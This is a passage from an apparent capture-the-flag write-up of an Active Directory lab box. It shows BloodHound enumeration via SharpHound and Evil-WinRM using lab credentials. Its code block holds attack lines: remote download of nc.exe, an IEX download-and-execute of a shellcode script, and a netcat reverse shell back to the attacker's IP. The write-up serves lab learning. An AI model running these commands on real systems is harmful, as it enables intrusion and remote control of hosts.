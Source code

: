 However, if we launch BloodHound just like that, it won't help you lots because you first need to give it data to process. I know two ways of doing so:

- There is a BloodHound's version which is Python based and that connects directly to the target, provided correct credentials, and gathers all needed information: this can be found [here](https://github.com/fox-it/BloodHound.py). The python based ingestor can be installed with `pip install bloodhound`
- There is a separate BloodHound ingestor called SharpHound. It comes in two version: an executable file that can be uploaded to the host then ran, and a Powershell script that we're going to use right into Evil-WinRM. You can find SharpHound [here](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors).

Here I'll be using the second method. First, I downloaded the script SharpHound.ps1 in a directory called scripts, then I launched an Evil-WinRM session with the following command:
`evil-winrm -i 10.10.10.161 -u svc-alfresco -P 5985 -p s3rvice -s "scripts/"`

The script is then uploaded and imported using one of the following methods.

```cmd
root@kali: python -m SimpleHTTPServer
+ Invoke-WebRequest -Uri 'http://10.10.14.15/nc.exe' -Outfile C:\Users\svc-alfresco\Desktop\nc.exe
+ IEX(New-Object Net.WebClient).DownloadString ("http://192.168.181.128:8000/CodeExecution/Invoke-Shellcode.ps1 "
C:\Users\svc-alfresco\Desktop\nc.exe -e cmd.exe 10.10.14.15 4444
root@kali: nc -nlvp 4444

OR

upload SharpHound.ps1
```

```cmd
Import-Module ./SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice
download date_bloodhound.zip

OR

bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.10.10.161
```

After uploading date_bloodhound.zip file to bloodhound we get the domain map needed to get to the administrator.

Now we can use [aclpwn](https://github.com/fox-it/aclpwn.py/wiki/Quickstart) or do it manually.

+ [Manual Addition instead of aclpwn](#manual-addition-instead-of-aclpwn)
+ [Using ACLPWN](#using-aclpwn)
  
### Manual Addition instead of aclpwn

I picked the route of creating a separate user account that I can add to the Exchange Windows Permissions group. I connect with evil-winrm as svc-alfresco to create the following user account and add it to all the required groups:
